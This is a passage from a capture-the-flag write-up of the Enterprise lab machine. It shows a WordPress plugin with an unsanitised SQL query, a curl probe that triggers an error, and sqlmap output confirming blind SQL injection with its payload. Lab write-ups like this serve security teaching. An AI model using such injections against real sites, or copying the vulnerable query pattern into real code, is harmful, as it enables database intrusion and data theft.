 

66-68 as Passwords is interesting. But not much else I can do there at
this point.

`lcars_db.php` is very similar:



    <?php
    include "/var/www.md/wp-config.php";
    $db = new mysqli(DB_HOST, DB_USER, DB_PASSWORD, DB_NAME);
    // Test the connection:
    if (mysqli_connect_errno()){
        // Connection Error
        exit("Couldn't connect to the database: ".mysqli_connect_error());
    }

    // test to retireve an ID
    if (isset($_GET['query'])){
        $query = $_GET['query'];
        $sql = "SELECT ID FROM wp_posts WHERE post_name = $query";
        $result = $db->query($sql);
        echo $result;
    } else {
        echo "Failed to read query";
    }

    ?>



But it doesn't cast the input as an int! It also doesn't do conversion
with the result of the query, just tried to echo it. In fact, this leads
the page to break:



    oxdf@parrot$ curl http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1
    <br />
    <b>Catchable fatal error</b>:  Object of class mysqli_result could not be converted to string in <b>/var/www.md/wp-content/plugins/lcars/lcars_db.php</b> on line <b>16</b>



Where `lcars_dbpost.php` returns "Hello world!", this errors. That's
because it's taking the result of the query, which isn't a string but an
object, and trying to pass it to `echo`, which expects a string.

### SQL Injection

#### sqlmap

This is a rather complicated SQL injection, so I'll let `sqlmap` do the
heavy lifting:



    oxdf@parrot$ sqlmap -u enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1 --batch
    ...[snip]...
    GET parameter 'query' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
    sqlmap identified the following injection point(s) with a total of 297 HTTP(s) requests:
    ---
    Parameter: query (GET)
        Type: boolean-based blind
        Title: Boolean-based blind - Parameter replace (original value)
        Payload: query=(SELECT (CASE WHEN (3821=3821) THEN 1 ELSE (SELECT 3759 UNION SELECT 4044) END))
